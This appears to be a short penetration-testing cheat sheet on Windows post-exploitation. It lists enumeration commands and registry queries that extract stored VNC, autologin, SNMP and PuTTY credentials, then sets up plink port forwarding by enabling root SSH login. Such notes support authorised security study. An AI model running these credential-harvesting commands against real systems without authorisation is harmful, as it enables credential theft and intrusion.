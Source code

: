05. Passwords and Port Forwarding Exploitation

`whoami`
`net user`
`systeminfo`
`ipconfig`
`netstat -ano`
- Check registry First:
```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
Port forwaring with plink:
- Download and transfer to target
- `apt install ssh`
- edit /etc/ssh/sshd_config to allowrootlogin yes
- `service ssh restart`